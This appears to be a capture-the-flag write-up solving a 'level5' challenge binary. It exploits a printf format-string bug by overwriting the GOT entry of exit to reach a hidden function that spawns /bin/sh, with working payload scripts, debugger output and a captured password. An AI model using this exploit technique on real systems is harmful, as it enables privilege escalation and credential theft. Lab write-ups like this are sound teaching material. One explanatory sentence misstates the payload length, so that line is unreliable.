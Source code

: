 # level5

Running the binary seems to echo back what we write in stdin :

```sh
$ ./level5
aaaaa
aaaaa
```

The `main` function looks like this :

```c
void main(void)
{
  n();
  return;
}

```

And the `n` function looks like this :

```c
void n(void)
{
  char buffer[520];
  fgets(buffer,512,stdin);
  printf(buffer);
  exit(1);
}
```

It's again a format string vulnerability. But this time there is a `o` function that seems to be hidden.

```c
void o(void)
{
  system("/bin/sh");
  _exit(1);
}
```

It simply runs `/bin/sh`, so we have to find a way to call it.

First, we need to know where our buffer is in the stack.

```python
import subprocess
import sys
args = ["./level5"]

for i in range(0, 256):
	p = subprocess.Popen(args, stdin=subprocess.PIPE, stdout=subprocess.PIPE)
	payload = "AAAA" + "%{}$x\n".format(i)
	p.stdin.write(payload)
	p.stdin.flush()
	out = p.stdout.readline().strip()
	if out.decode().endswith("414141"):
        print "Found at index {}".format(i)
        exit(0)
```

This script returns `Found at index 4`.

Since there's a call to `exit` after our call to `printf` we cannot re-write the register `EIP`, since the code doesn't return.

Another cool way to solve this is via overwriting the `GOT` entry of `exit` with the address of `o`.

The Global Offset Table is a table of addresses of functions that are dynamically linked, and is used to resolve the address of a function at runtime.

We can see where every function is in the GOT by using `objdump -R level5`.

```sh
$ objdump -R level5
level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

To generate our payload, exactly like the other two levels, we have to write `0x08049838` characters, then the address of `o` in little endian.

To get the address of `o`, nothing complicated.

```sh
b main
r
p o
$1 = {<text variable, no debug info>} 0x80484a4 <o>
```

```python
import struct

EXIT_ADDY = 0x08049838
O_ADDY    = 0x080484a4

payload = struct.pack("<I", EXIT_ADDY)
payload += "%{}x".format(O_ADDY - len(payload))
payload += "%4$n"
print payload
```

We need to keep a stdin open to send our payload, so we can't use `subprocess.Popen` without tinkering.

A quick solution is just to run the script with a `&& cat -` to re-open a stdin, and pipe the entire thing to `level5`

```sh
(python /tmp/payload.py ; cat -) | ./level5
whoami
level6
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass     
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

And we're done.